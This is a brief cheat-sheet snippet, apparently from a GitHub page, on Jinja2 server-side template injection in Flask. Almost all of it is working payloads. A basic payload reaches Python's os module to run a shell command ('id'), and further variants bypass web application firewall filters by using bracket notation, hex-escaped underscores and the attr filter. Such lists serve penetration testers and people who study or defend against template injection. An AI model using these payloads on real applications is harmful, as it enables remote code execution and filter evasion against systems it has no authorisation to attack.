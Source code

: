 Python flask jinja2:

https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f

Simple payload:  
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}  

Bypassing filters:  
 - If the waf blocks **.**:  
     {{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']()}}
 - If the waf blocks **.** and **_**:  
     {{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']()}}
 - If the waf alsoblocks **request** and **[** and **]**
     {{''|attr('\x5f\x5fclass\x5f\x5f')}}
